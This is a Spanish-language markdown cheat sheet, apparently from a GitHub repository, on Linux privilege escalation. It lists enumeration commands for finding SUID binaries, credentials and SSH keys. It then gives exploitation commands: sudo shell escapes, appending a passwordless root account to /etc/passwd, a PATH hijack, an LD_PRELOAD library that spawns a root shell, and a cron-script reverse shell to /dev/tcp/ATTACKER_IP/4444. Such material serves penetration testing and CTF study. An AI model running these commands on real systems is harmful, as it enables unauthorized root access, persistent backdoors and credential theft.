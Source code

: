 # Enumeration: Linux privilege escalation

## 🔍 Sección 1: Enumeración

### 1️⃣ Información del sistema

```bash
uname -a                   # Versión del kernel
cat /etc/os-release        # Información de la distribución
cat /etc/issue							
arch                       # Arquitectura del sistema
sudo -V
dmesg | tail 		   # Últimos mensajes del kernel
```

### 2️⃣ Usuarios y grupos

```bash
whoami                           # Usuario actual
id                               # UID y grupos
who -a                           # Usuarios conectados
last                             # Últimos logins
cat /etc/passwd                  # Lista de usuarios
cat /etc/shadow                  # Hashes de contraseñas (requiere root)
getent passwd                    # Usuarios desde NSS
sudo -l                          # Comandos sudo disponibles
groups <usuario>
```

### 3️⃣ Permisos y archivos sensibles

```bash
find / -perm -4000 2>/dev/null                      # Binarios con SUID
find / -perm -2000 2>/dev/null   	            # Binarios con SGID
find / -type f -writable 2>/dev/null                # Archivos con permisos de escritura
find /home -name '.*history' 2>/dev/null            # Historial de comandos
find / -type f -perm -g=w -group <grupo> 2>/dev/null       # Archivos con permiso de escritura por el grupo
find / -type f -writable -user $(whoami) 2>/dev/null       # Archivos escribibles por tu usuario actual (sin importar grupo)
find / -writable -group <grupo> 2>/dev/null                # directorios (para escribir archivos dentro)
find / -type f -perm -g=w -perm -111 -group <grupo> 2>/dev/null       # Buscar archivos ejecutables escribibles por el grupo
find /<directorio> -type d -perm -2 -ls 2>/dev/null
find / -user root -writable 2>/dev/null             # Archivos root escribibles
find / -type f -name '*.db' 2>/dev/null		    # Archivos base de datos
```

### Credenciales

```bash
# opciones:

--include="*.ini"
--include="*.yaml"
--include="*.yml"
--include="*.json"
--include="*.conf"

grep -rniI --include="*.conf" --include="*.ini" --include="*.yaml" --include="*.yml" --include="*.json" "PASSW\|PASSWD\|PASSWORD\|PWD" / 2>/dev/null

# V2
grep -rniI --include=*.{conf,ini,yaml,yml,json,php} "PASSW\|PASSWD\|PASSWORD\|PWD" / 2>/dev/null

find / -exec ls -lad $PWD/* "{}" 2>/dev/null \; | grep -i -I "passw\|pwd"

locate 'passw'
locate 'pwd'
locate '*.php'
```


### 4️⃣ Procesos y tareas en ejecución

```bash
ps aux | grep root              # Procesos ejecutados por root
ps -ef --forest                 # Jerarquía de procesos
ps -ef | grep <proceso>         # Información de un proceso específico
cat /proc/sched_debug | head    # Info de procesos
lsof -i                         # Conexiones activas
```

### 5️⃣ Servicios y conexiones

```bash
netstat -tulnp               # Puertos abiertos y servicios activos
ss -tulnp                    # Alternativa a netstat
iptables -L                  # Reglas de firewall
systemctl list-units --type=service  # Servicios activos
systemctl list-units --type=service --all
```

### 6️⃣ Cron jobs y timers

```bash
ls -lah /etc/cron*           # Revisar cron jobs
cat /etc/crontab            # Tareas programadas
systemctl list-timers       # Timers activos
systemctl list-timers --all
```

### 7️⃣ Variables de entorno

```bash
env                         # Variables de entorno
echo $PATH                  # Directorios en PATH
cat /etc/profile            # Variables globales
cat ~/.bashrc
```

### 8️⃣ Capacidades de binarios

```bash
getcap -r / 2>/dev/null     # Binarios con capacidades especiales
```

### 9️⃣ Contenedores y Docker

```bash
docker ps -a                # Contenedores en ejecución
cat /etc/group | grep docker # Ver si el usuario está en el grupo docker
ls -la /var/run/docker.sock
```

## 💥 Sección 2: Explotación

### 1️⃣ Explotación de SUDO mal configurado

```bash
sudo -l                     # Ver permisos sudo
sudo su                     # Si NOPASSWD está habilitado
sudo <comando>              # Ejecutar comandos con sudo
sudo -u root <comando>

# Ejemplos
sudo vim -c ':!/bin/sh'
sudo nmap --interactive
sudo find / -exec /bin/sh \;
sudo python3 -c 'import os; os.system("/bin/sh")'
```

### 2️⃣ SUID/SGID abuse

```bash
find / -perm -4000 2>/dev/null   # Buscar archivos con SUID
find / -perm -2000 2>/dev/null   # Buscar archivos con SGID
find / -perm -4000 -type f 2>/dev/null | xargs ls -la 
chmod 4755 /bin/bash             # Inyectar 
/bin/bash -p                     # Ejecutar bash con privilegios SUID
./vim -c ':!/bin/sh'

find / -perm -4000 -type f 2>/dev/null | xargs ls -la
```

### 3️⃣ Malos permisos en archivos y directorios

```bash
# Opcion 1
openssl passwd newpass
codedPass
echo 'root::0:0:codedPass:::/bin/bash' >> /etc/passwd  # Crear usuario root

# Opcion 2

echo "root2::0:0::/root:/bin/bash" >> /etc/passwd
su root2
```

### 4️⃣ Tareas cron y servicios inseguros

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/vulnerable_script.sh
```

### 5️⃣ Variables de entorno peligrosas

```bash
export PATH=/tmp:$PATH       # Modificar PATH
export LD_PRELOAD=/tmp/malicioso.so  # Cargar biblioteca maliciosa

export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/service
chmod +x /tmp/service
sudo vulnerable_binary

# LD_PRELOAD
echo 'void __attribute__((constructor)) init(){setuid(0); system("/bin/bash");}' > /tmp/x.c
gcc -fPIC -shared -o /tmp/x.so /tmp/x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so <comando>

```

### 6️⃣ Explotación de procesos en ejecución

```bash
ps -ef | grep root
strace -p <PID>
gdb -p <PID>                # Adjuntar a un proceso
```

### 7️⃣ Explotación de servicios y configuraciones de red

```bash
showmount -e <IP>           # Revisar NFS
mount -t nfs <IP>:/ /mnt
```

### 8️⃣ Extracción de credenciales

```bash
cat ~/.bash_history         # Revisar historial de comandos
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys
strings /proc/<PID>/mem | grep -i pass
```

### 9️⃣ Kernel Exploits

```bash
uname -r                    # Revisar versión del kernel
searchsploit <versión>      # Buscar exploits para el kernel
```

